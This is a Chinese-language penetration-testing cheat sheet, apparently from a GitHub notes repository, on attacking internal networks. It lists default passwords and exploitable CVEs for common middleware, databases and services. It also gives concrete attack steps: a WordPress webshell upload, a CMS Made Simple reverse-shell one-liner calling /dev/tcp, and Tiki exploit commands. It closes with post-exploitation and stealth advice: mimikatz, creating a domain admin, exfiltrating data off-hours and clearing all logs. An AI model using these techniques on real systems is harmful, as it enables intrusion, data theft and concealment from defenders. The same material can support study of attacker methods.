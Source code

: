 常规思路
========================================

内网安全检查
----------------------------------------

攻击思路
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
- 攻击外网服务器，获取外网服务器的权限，接着利用入侵成功的外网服务器作为跳板，攻击内网其他服务器，最后获得敏感数据，并将数据传递到攻击者，看情况安装长期后门，实现长期控制和获得敏感数据的方式；
- 攻击办公网的系统、办公网电脑、办公网无线等方式，一般是采用社工，实现控制办公电脑，再用获得的办公网数据，可能是内网的各种登录账号和密码，再获取办公网或者生产网的有用数据。

敏感资料/数据/信息
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
- 高管/系统管理员/财务/人事/业务人员的个人电脑
- 文件服务器/共享服务器
- 邮件服务器
- OA服务器
- 数据库服务器

攻击过程
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
- 信息收集
- 漏洞验证/漏洞攻击
- 后渗透
- 日志清理

信息收集
----------------------------------------
- 主机发现
- 端口扫描
- 漏洞扫描
- 识别内网环境
	+ 办公网
	+ 生产网

漏洞验证/漏洞攻击
----------------------------------------

Web
----------------------------------------

自定义 Web 应用
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

Web 中间件
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
- Tomcat
	+ 端口号：8080
	+ 攻击方法
		+ 默认口令、弱口令，爆破，tomcat5 默认有两个角色：tomcat和role1。其中账号both、tomcat、role1的默认密码都是tomcat。弱口令一般存在5以下的版本中。
		+ 在管理后台部署 war 后门文件
		+ 远程代码执行漏洞
- Jboss
	+ 端口：8080
	+ 攻击方法
		+ 弱口令，爆破
		+ 管理后台部署 war 后门
		+ 反序列化
		+ 远程代码执行
- WebLogic
	+ 端口：7001，7002
	+ 攻击方法
		+ 弱口令、爆破，弱密码一般为weblogic/Oracle@123 or weblogic
		+ 管理后台部署 war 后门
		+ SSRF
		+ 反序列化漏洞
		+ weblogic_uac
- WebSphere
	+ 端口：默认端口：908*；第一个应用就是9080，第二个就是9081；控制台9090
	+ 攻击方法
		+ 控制台登录爆破
		+ 很多内网 websphere 的控制台存在弱口令 / 默认口令，可以使用 admin/admin 以及 webshpere/webshpere 这种口令登录。 通过该口令登录控制台后，可以部署 war 包，从而获取到 WEBSHELL 。
		+ 反序列化
		+ 任意文件泄露
		
Web 框架
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
- Struts2
	+ 可利用漏洞
		+ S2-046 CVE-2017-5638 Struts 2.3.5-2.3.31,Struts 2.5-2.5.10
		+ S2-045 CVE-2017-5638 Struts 2.3.5-2.3.31,Struts 2.5-2.5.10
		+ S2-037 CVE-2016-4438 Struts 2.3.20-2.3.28.1
		+ S2-032 CVE-2016-3081 Struts 2.3.18-2.3.28
		+ S2-020 CVE-2014-0094 Struts 2.0.0-2.3.16
		+ S2-019 CVE-2013-4316 Struts 2.0.0-2.3.15.1
		+ S2-016 CVE-2013-2251 Struts 2.0.0-2.3.15
		+ S2-013 CVE-2013-1966 Struts 2.0.0-2.3.1
		+  S2-009 CVE-2011-3923 Struts 2.0.0-2.3.1.1
		+ S2-005 CVE-2010-1870 Struts 2.0.0-2.1.8.1
- Spring 框架
	+ 可利用漏洞
		+ CVE-2010-1622
		+ CVE-2018-1274
		+ CVE-2018-1270
		+ CVE-2018-1273
		+ 反序列化
		+ 目录穿越
		
Web 服务器
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
- IIS：Windows 的 WWW 服务器
	+ https://masterxsec.github.io/2017/06/07/IIS-write-%E6%BC%8F%E6%B4%9E%E5%88%A9%E7%94%A8/
	+ http://www.freebuf.com/articles/4908.html
	+ https://www.anquanke.com/post/id/85811
	+ IIS，开启了 WebDAV，可以直接详服务器 PUT 文件
	+ 短文件名枚举漏洞
	+ 远程代码执行
	+ 提权漏洞
	+ 解析漏洞
- Apache 
	+ 解析漏洞
	+ 目录遍历
- Nginx 
	+ https://www.seebug.org/vuldb/ssvid-92538
	+ 解析漏洞
	+ 目录遍历
	+ CVE-2016-1247：需要获取主机操作权限，攻击者可通过软链接任意文件来替换日志文件，从而实现提权以获取服务器的root权限
- lighttpd
	+ 目录遍历

常见运维系统
----------------------------------------
一般分自动化部署和运维监控相关的的工具。漏洞可以通过搜索引擎搜索，github搜索，ExploitDB搜索，官网上的安全通告获取。
内网的通用类应用比较常见的问题是弱口令，如果一个管理员可以登录几个系统，那在这几个系统的账号、密码也基本上是一样的。

Gitlab
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
- GitLab是一个利用 Ruby on Rails 开发的开源应用程序，实现一个自托管的项目仓库，可通过Web界面进行访问公开的或者私人项目。
- 可利用漏洞
	+ 任意文件读取漏洞
	+ 任意用户 token 泄露漏洞
	+ 命令执行漏洞
	
Jenkins
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
- Jenkins是一种跨平台的持续集成和交付的应用软件，它便于不断稳定地交付新的软件版本，并提高你的工作效率。这款开发运维工具还让开发人员更容易把项目的变化整合起来，并使用大量的测试和部署技术。
- 可利用漏洞：
	+ 远程代码执行漏洞
	+ 反序列化漏洞
	+ 未授权访问漏洞
	+ 登录入口爆破

Puppet
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
- Puppet Enterprise专门管理基础设施即代码(IAC)，在这种类型的IT基础设施配置过程中，系统用代码而不是脚本流程来自动构建、管理和配置。由于它是代码，整个过程易于重复。Puppet有助于更容易控制版本、自动化测试和持续交付，可以更快速地响应问题或错误。
- 可利用漏洞，很少公开的POC
- 反序列化
- 远程命令执行

Ansible
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
- Ansible是一种配置和管理工具，面向客户端的软件部署和配置，支持Unix、Linux和Windows。它使 用JSON和YAML，而不是IAC，根本不需要节点代理就可以安装。它可以通过OpenStack在内部系统上使用，也可以在亚马逊EC2上使用。
- 可利用漏洞
	+ 远程代码执行
	
Nagios
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
- Nagios是一款开源的电脑系统和网络监视工具，能有效监控Windows、Linux和Unix的主机状态，交换机路由器等网络设置，打印机等。在系统或服务状态异常时发出邮件或短信报警第一时间通知网站运维人员，在状态恢复后发出正常的邮件或短信通知。
- 可利用漏洞
	+ 代码执行
	+ SQLi
	
Zabbix
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
- Zabbix 是一款强大的开源分布式监控系统, 能够将SNMP、JMX、Zabbix Agent提供的数据通过WEB GUI的方式进行展示。
- 可利用漏洞
	+ 远程代码执行
	+ SQLi
	+ shell 命令注入
	+ 认证绕过
	+ 默认账户与密码，默认口令 admin/zabbix，或者是guest/空
	
Cacit
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
- Cacti是一套基于PHP,MySQL,SNMP及RRDTool开发的网络流量监测图形分析工具。
- 可利用漏洞
	+ 任意代码执行
	+ SQLi
	+ 登录爆破
	+ 默认密码admin/admin
	
Splunk
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
- Splunk Enterprise 可以从任何来源监控和分析机器数据，以提供操作智能，从而优化您的 IT、安全和业务绩效。Splunk Enterprise 具有直观的分析功能、机器学习、打包应用程序和开放式 API，是一个灵活的平台，可从重点用例扩展到企业范围的分析主干。
- 可利用漏洞
	+ 信息泄露
	+ 命令注入
	+ 服务端请求伪造

常见Web应用
----------------------------------------

邮件系统
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
一部分是使用腾讯企业邮箱、阿里企业邮箱的，很难有可利用的漏洞，另外一种是能独立部署的邮件系统，政企常用的邮箱应用：

- Coremail
- 亿邮
- 35互联
- TurboMail
- Exchange
- IBM Lotus

CMS应用
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

- wordpress
	+ 扫描插件和主题是否包含漏洞
	+ 拿到wp网站登录用户名和密码
		- 可通过上传主题文件来getshell，首先先去官网下载一个主题压缩包，之后将反弹shell的php代码写入shell.php中，然后将其放入压缩包一起上传
		- shell目录：/wp-content/themes/[主题名]/[shell文件名]
		- 通过主题编辑修改php页面
	+ xmlrpc.php
		- 查看支持的方案
		
		::
		
			POST /xmlrpc.php HTTP/1.1
			Host: 192.168.100.106
			User-Agent: Mozilla/4.0 (compatible; MSIE 6.0; Windows NT 5.1)
			Content-Type: text/xml;charset=UTF-8
			Content-Length: 128

			<?xml version="1.0" encoding="iso-8859-1"?><methodCall><methodName>system.listMethods</methodName><params></params></methodCall>

- CMS Made Simple
	+ 数据库更改密码方法
		- 前提：登录数据库
		- ``update cms_users set password = (select md5(CONCAT(IFNULL((SELECT sitepref_value FROM cms_siteprefs WHERE sitepref_name='sitemask'),''),'admin'))) where username = 'admin';``
	+ 反弹shell
		- 前提：登录系统
		- Extensions/User Defined Tags
			::
				
				vps开启监听
				修改任何一个tag的code，点击apply，点击run
				echo system("bash -c 'bash -i >& /dev/tcp/192.168.100.108/4444 0>&1'");
			
- tiki
	+ CVE-2020-15906
		- 利用条件：tiki<21.2
		- 免密码登录
			::
			
				https://www.exploit-db.com/exploits/48927
				python 48927.py 192.168.100.103
				打开burpsuite，开启拦截
				浏览器登录admin，输入密码
				bp去掉密码，forward
				
		- 命令执行
			::
			
				https://srcincite.io/pocs/cve-2021-26119.py.txt
				python cve-2021-26119.py 192.168.100.103 /tiki/ whoami

数据库/缓存/消息服务
----------------------------------------

MySQL数据库
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
- 默认端口：3306
- 攻击方法
	+ 爆破：弱口令
	+ 身份认证漏洞：CVE-2012-2122
	+ 拒绝服务攻击
	+ Phpmyadmin万能密码绕过：用户名：‘localhost’@’@” 密码任意
	+ 提权
	
MSSQL数据库
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
- 默认端口：1433（Server 数据库服务）、1434（Monitor 数据库监控）
- 攻击方法：
	+ 爆破：弱口令/使用系统用户
	+ 注入
	
Oracle数据库
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
- 默认端口：1521（数据库端口）、1158（Oracle EMCTL端口）、8080（Oracle XDB数据库）、210（Oracle XDB FTP服务）
- 攻击方法：
	+ 爆破：弱口令
	+ 注入攻击
	+ 漏洞攻击

PostgreSQL数据库
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
- 默认端口：5432
- 攻击方法
	+ 爆破：弱口令：postgres postgres
	+ 缓冲区溢出：CVE-2014-2669
	
MongoDB数据库
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
- 默认端口：27017
- 攻击方法
	+ 爆破：弱口令
	+ 未授权访问；github有攻击代码；
	
Redis数据库
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
- 攻击方法
	+ 爆破：弱口令
	+ 未授权访问+配合ssh key提权；
	
SysBase数据库
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
- 默认端口：服务端口5000；监听端口4100；备份端口：4200
- 攻击方法：
	+ 爆破：弱口令
	+ 命令注入
	
DB2 数据库
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
- 默认端口：5000
- 攻击方法
	+ 安全限制绕过：成功后可执行未授权操作（CVE-2015-1922）

常见服务/协议
----------------------------------------

FTP 服务
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
FTP服务我分为两种情况，第一种是使用系统软件来配置，比如IIS中的FTP文件共享或Linux中的默认服务软件；第二种是通过第三方软件来配置，比如Serv-U还有一些网上写的简易ftp服务器等；

- 默认端口：20（数据端口）；21（控制端口）；69（tftp小型文件传输协议）
- 攻击方式
	+ 爆破：ftp的爆破工具有很多，这里我推荐owasp的Bruter 以及msf中ftp爆破模块；
	+ 匿名访问：用户名：anonymous 密码：为空或任意邮箱
	+ 嗅探：ftp使用明文传输技术（但是嗅探给予局域网并需要欺骗或监听网关）
	+ 后门 vsftp
	+ 远程溢出
	+ 跳转攻击
	
NFS 服务
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
NFS（Network File System）即网络文件系统，是FreeBSD支持的文件系统中的一种，它允许网络中的计算机之间通过TCP/IP网络共享资源。在NFS的应用中，本地NFS的客户端应用可以透明地读写位于远端NFS服务器上的文件，就像访问本地文件一样。如今NFS具备了防止被利用导出文件夹的功能，但遗留系统中的NFS服务配置不当，则仍可能遭到恶意攻击者的利用。

- 攻击方法
	+ 未授权访问
	
Samba服务
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
Samba是linux和unix系统上实现SMB/CIFS协议的一个免费软件，由服务器和客户端程序构成。而SMB是局域网支持共享文件和打印机的一种通信协议，为局域网内不同计算机之间提供文件及打印机等资源的共享服务。

- 攻击方法
	+ 远程代码执行
	+ 弱口令
	+ 未授权访问（public）
	
SSH服务
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
SSH是协议，通常使用OpenSSH软件实现协议应用。

- 端口：22
- 攻击方法
	+ 爆破
	+ 后门
	+ 漏洞：28退格漏洞、OpenSSL漏洞

Telnet服务
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
Telnet协议是TCP/IP协议族中的一员，是Internet远程登陆服务的标准协议和主要方式。

- 默认端口：21
- 攻击方法
	+ 爆破
	+ 嗅探

Windows远程连接
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
- 默认端口：3389
- 攻击方法
	+ 爆破
	+ Shift粘滞键后门：5次shift后门
	+ 利用ms12-020攻击3389端口
	
VNC服务
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
VNC（Virtual Network Computing），为一种使用RFB协议的显示屏画面分享及远程操作软件。此软件借由网络，可发送键盘与鼠标的动作及即时的显示屏画面。

- 默认端口：5900+桌面ID（5901；5902）
- 攻击方式：
	+ 爆破：弱口令
	+ 认证口令绕过：
	+ 拒绝服务攻击：（CVE-2015-5239）
	+ 权限提升：（CVE-2013-6886）
	
SMTP协议
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
smtp：邮件协议，在linux中默认开启这个服务，可以向对方发送钓鱼邮件！

- 默认端口：25（smtp）、465（smtps）
- 攻击方式
	+ 爆破：弱口令
	+ 未授权访问
	
POP3协议
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
- 默认端口：109（POP2）、110（POP3）、995（POP3S）
- 攻击方式：
	+ 爆破；弱口令
	+ 未授权访问

DNS服务
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
- 默认端口：53
- 攻击方式：
	+ 区域传输漏洞
	
IMAP协议
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
- 默认端口：143（imap）、993（imaps）
- 攻击方式：
	+ 爆破：弱口令
	+ 配置不当
	
SNMP协议
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
- 默认端口：161
- 攻击方式
	+ 爆破：弱口令
	
DHCP服务
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
- 默认端口：67&68、546（DHCP Failover做双机热备的）
- 攻击方式：
	+ DHCP劫持
	
云环境
----------------------------------------

VMware
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
使用 VMware vCloud 可将现有数据中心内的虚拟基础架构资源池化，并将其作为基于目录的服务交付。通过与云计算基础架构的最佳平台 VMware vSphere 配合使用，VMware vCloud Director 可为客户提供构建安全的私有云，从而改变 IT 部门交付和管理基础架构服务以及用户访问和使用这些服务的方式。

一般组织中很多独立安装的 Esxi 形式的私有云，或独立部署的虚拟化系统。

- 漏洞
	+ 主机逃逸
	+ CVE-2017-5638
	
OpenStack
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
OpenStack是基础设施即服务（IaaS）软件，让任何人都可以自行创建和提供云计算服务。此外，OpenStack也用作创建防火墙内的“私有云”（Private Cloud），提供机构或企业内各部门共享资源。

- 漏洞，有漏洞但是POC基本没有。检查时候可以参考安全的配置实践。
	+ 权限绕过漏洞
	+ 信息泄露
	+ 代码执行漏洞
	
Docker
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
Docker是一个开放源代码软件项目，让应用程序布署在软件容器下的工作可以自动化进行，借此在Linux操作系统上，提供一个额外的软件抽象层，以及操作系统层虚拟化的自动管理机制[1]。

Docker利用Linux核心中的资源分脱机制，例如cgroups，以及Linux核心名字空间（name space），来创建独立的软件容器（containers）。这可以在单一Linux实体下运作，避免引导一个虚拟机造成的额外负担。

Linux核心对名字空间的支持完全隔离了工作环境中应用程序的视野，包括进程树、网络、用户ID与挂载文件系统，而核心的cgroup提供资源隔离，包括CPU、内存、block I/O与网络。

从0.9版本起，Dockers在使用抽象虚拟是经由libvirt的LXC与systemd - nspawn提供界面的基础上，开始包括libcontainer函数库做为以自己的方式开始直接使用由Linux核心提供的虚拟化的设施。

- 安全问题（很少有漏洞的POC，安全检查也是基于最佳实践和官方安全建议进行）
	+ CVE-2015-3630 1.6.0 Docker Libcontainer 安全绕过漏洞
	+ CVE-2015-3627 1.6.1 Libcontainer和Docker Engine 权限许可和访问控制漏洞
	+ CVE-2015-3630 1.6.1 Docker Engine 安全绕过漏洞
	+ CVE-2014-9358 1.3.3 Docker 目录遍历漏洞
	+ CVE-2014-9357 1.3.2 Docker 权限许可和访问控制漏洞
	+ CVE-2014-6408 1.3.1 Docker 权限许可和访问控制漏洞
	+ CVE-2014-5277 1.3.0 Docker和docker-py 代码注入漏洞
	+ 内核漏洞（Kernel exploits） 容器是基于内核的虚拟化，主机（host）和主机上的所有容器共享一套内核。如果某个容器的操作造成了内核崩溃，那么反过来整台机器上的容器都会受到影响。
	+ 拒绝服务攻击（Denial-of-service attacks） 所有的容器都共享了内核资源，如果一个容器独占了某一个资源（内存、CPU、各种ID），可能会造成其他容器因为资源匮乏无法工作（形成DoS攻击）。
	+ 容器突破（Container breakouts） Linux的namespace机制是容器的核心之一，它允许容器内部拥有一个PID=1的进程而在容器外部这个进程号又是不一样的（比如1234）。现在问题在于如果一个PID=1的进程突破了namespace的限制，那么他将会在主机上获得root权限。
	+ 有毒镜像（Poisoned images） 主要是考虑到镜像本身的安全性，没太多好说的。
	
大数据
----------------------------------------

Elsaticsearch
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
Elasticsearch 是一个分布式的搜索和分析引擎，可以用于全文检索、结构化检索和分析，并能将这三者结合起来。Elasticsearch 基于 Lucene 开发，现在是使用最广的开源搜索引擎之一，Wikipedia、Stack Overflow、GitHub 等都基于 Elasticsearch 来构建他们的搜索引擎。

- 默认端口：9200、9300
- 攻击方法：
	+ 未授权访问；
	+ 远程命令执行；
	+ 文件遍历；
	+ 低版本webshell植入；
	
hadoop
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
Hadoop是一个开源的框架，可编写和运行分布式应用处理大规模数据，是专为离线和大规模数据分析而设计的，并不适合那种对几个记录随机读写的在线事务处理模式。

Hadoop=HDFS（文件系统，数据存储技术相关）+ Mapreduce（数据处理），Hadoop的数据来源可以是任何形式，在处理半结构化和非结构化数据上与关系型数据库相比有更好的性能，具有更灵活的处理能力，不管任何数据形式最终会转化为key/value，key/value是基本数据单元。

用函数式变成Mapreduce代替SQL，SQL是查询语句，而Mapreduce则是使用脚本和代码，而对于适用于关系型数据库，习惯SQL的Hadoop有开源工具hive代替。 Hadoop就是一个分布式计算的解决方案。

Hive
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
Hive是Hadoop家族中一款数据仓库产品，Hive最大的特点就是提供了类SQL的语法，封装了底层的MapReduce过程，让有SQL基础的业务人员，也可以直接利用Hadoop进行大数据的操作。

Sqoop
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
Apache Sqoop（SQL-to-Hadoop） 项目旨在协助 RDBMS 与 Hadoop 之间进行高效的大数据交流。

用户可以在 Sqoop 的帮助下，轻松地把关系型数据库的数据导入到 Hadoop 与其相关的系统 (如HBase和Hive)中；同时也可以把数据从 Hadoop 系统里抽取并导出到关系型数据库里。除了这些主要的功能外，Sqoop 也提供了一些诸如查看数据库表等实用的小工具。

HBase
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
HBase建立在HDFS之上，提供高可靠性、高性能、列存储、可伸缩、实时读写的数据库系统。

它介于NoSQL和RDBMS之间，仅能通过行键(row key)和行键序列来检索数据，仅支持单行事务(可通过Hive支持来实现多表联合等复杂操作)。主要用来存储非结构化和半结构化的松散数据。

与Hadoop一样，HBase目标主要依靠横向扩展，通过不断增加廉价的商用服务器，来增加计算和存储能力。

Spark
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
Spark是UC Berkeley AMP lab所开源的类Hadoop MapReduce的通用的并行计算框架，Spark基于map reduce算法实现的分布式计算，拥有Hadoop MapReduce所具有的优点；但不同于MapReduce的是Job中间输出和结果可以保存在内存中，从而不再需要读写HDFS。


后渗透
----------------------------------------

提权
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
- https://github.com/SecWiki/windows-kernel-exploits
- https://github.com/SecWiki/linux-kernel-exploits

域攻击
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
- 确定目标系统和应用程序
- 识别潜在的漏洞
- 利用漏洞获得初始访问
- 提升权限
- 定位域管理进程或者获取远程系统上的本地身份验证令牌
- 通过本地管理员的密码Hash，破解密码，使用mimikatz工具抓取密码验证运行在远程系统上的域名管理进程
- 迁移域管理进程
- 创建一个域管理员

建立后门/端口转发
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
- LCX：windows下面的端口转发软件。
- sockscap：主要针对windows平台的端口转发和代理转发。
- proxifier：跨平台的端口转发和代理工具，适用windows，linux，
- Macos平台，代理转发利器
- Rsscoks：＊nix平台下的端口转发和代理工具，配合proxychains好用到不行。
- Proxychains：＊nix平台下老牌的socks代理工具，一般的系统都会自带，谁用谁知道。
- ssh proxy：通过ssh做端口代理和转发，一般＊nix系统都自带。
- netcat：socat，hping，在很多情况下可以做端口转发和数据代理转发。
- metasploit：metasploit的后渗透模块中有不少代理模块和端口转发模块

传输文件
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

制作后门/木马程序
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

日志清理
----------------------------------------

注意事项
----------------------------------------
- 检查内网监控防范系统
- 谨慎使用ARP软件和大面积扫描软件
- 使用目标网络中无空闲机器，作为打包对象
- 使用内网大流量机器作为传输对象，如wsus服务器、视频会议系统
- 使用临时机器打包、数据传输，不要使用已控机器，可利用wmi脚本或wmic远程操作
- 禁止使用psexec.exe
- 打包时避开用户工作时间
- 控制卷包大小<100M
- 选择用户常用压缩软件
- 错峰下载数据
- 控制传输流量
- 清除所有操作日志
- 登录主机前先看看管理员是否在
